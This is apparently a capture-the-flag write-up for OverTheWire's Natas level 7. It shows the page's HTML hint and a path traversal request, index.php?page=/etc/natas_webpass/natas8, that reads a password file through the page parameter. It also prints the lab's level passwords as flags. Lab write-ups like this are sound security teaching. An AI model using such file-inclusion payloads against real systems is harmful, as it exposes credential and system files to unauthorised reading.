 # Natas Level 6 → Level 7 File inclusion Vulnerability from path traversal

## Previous Flag
<b>bmg8SvU1LizuWjx3y7xkNERkHxGre0GS</b>

## Goal
Username: natas7<br>
URL: http://natas7.natas.labs.overthewire.org<br>

Home About

## What I learned
```
Nothing
```

## Solution
```
F12 → Elements

<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
this is the front page

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 --> 👀
</div>

<div id="wechallform" class="ui-draggable" style="display: block;"><p>Submit token</p><form id="realwechallform" action="https://www.wechall.net/10-levels-on-Natas.html" enctype="application/x-www-form-urlencoded" method="post"><input type="hidden" name="wfid" value="8"><input type="hidden" name="password_solution" value="bmg8SvU1LizuWjx3y7xkNERkHxGre0GS"><input type="hidden" name="igotitnow" value="Register"></form></div></body>

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q 🔐
```

## Flag
<b>xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q</b>

## Continue
[Continue](/overthewire/Natas0708.md)